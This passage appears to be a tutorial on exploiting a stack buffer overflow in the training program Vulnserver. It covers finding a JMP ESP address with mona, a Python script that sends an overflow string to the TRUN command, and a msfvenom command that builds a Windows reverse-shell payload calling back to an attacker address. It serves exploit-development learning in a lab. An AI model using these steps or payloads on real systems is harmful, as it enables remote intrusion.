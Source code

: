  and then look at it carefully that what characters looks out of the place.
> check the last VULA in "HEX DUMP"

Finding the right modules
=========================

Now fire up the immunity debugger and in the command line below put the command:
> !mona modules
We need to find something attached to a vulnerable server and everything should be false. (essfunc.dll for example)

We need to use now opcode equivalent to jump the flow to our malicious payload:
can be done using nasm_shell, "msf-nasm_shell"
run it, and type "JMP ESP"
Take the JMP ESP its "FFE4" change it to loot likes "\xff\xe4"
then run mona:
> !mona find -s "\xff\xe4" -m essfunc.dll

We have 9 such pointers in this example, we can choose one of them, I am looking at the very first one which is “625011af”.
We can verify that if it’s a JMP ESP by searching this By press "CTRL+G"

"here press F2 to higtlite it the adderss"

change the "625011af" to \xaf\x11\x50\x62
and put it in python file, like:

```
#!/usr/bin/python
import sys, socket

############### mona jump code "625011AF"##################

shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

try:

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.80.1',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close


except:
        print "Error connecting to the server"
        sys.exit()
```
this to if there a Exploitation or not, press in ESP "Follow Dump" to see it

Exploitation
============

Generate payload using MSFvenom & remember to specify all bad characters using -b(\x00 is always bad):
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.80.1 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
